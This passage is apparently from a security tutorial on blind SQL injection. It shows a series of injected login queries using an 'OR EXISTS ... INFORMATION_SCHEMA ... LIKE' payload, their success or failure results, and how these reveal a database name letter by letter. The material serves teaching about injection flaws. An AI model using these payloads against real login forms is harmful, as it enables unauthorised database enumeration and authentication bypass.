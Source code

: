 Resultant queries:

```sql
# Query 1
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 's%' AND TABLE_SCHEMA != 'information_schema') #'

# Query 2
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 't%' AND TABLE_SCHEMA != 'information_schema') #'

# Query 3
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'u%' AND TABLE_SCHEMA != 'information_schema') #'

# Query 4
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tt%' AND TABLE_SCHEMA != 'information_schema') #'

# Query 5
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tz%' AND TABLE_SCHEMA != 'information_schema') #'

# Query 6
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tu%' AND TABLE_SCHEMA != 'information_schema') #'
```

Results:

```
# Query 1 - Failed

# Query 2 - Succeeded

# Query 3 - Failed

# Query 4 - Failed

# Query 5 - Failed

# Query 6 - Succeeded
```

Based on those queries, we know that the first two letters of the database name is 'tu'. The same concept can be applied to everything else as well.

### Further Readings and References

"SQL Injection Attacks by Example" - http://www.unixwiz.net/techtips/sql-injection.html
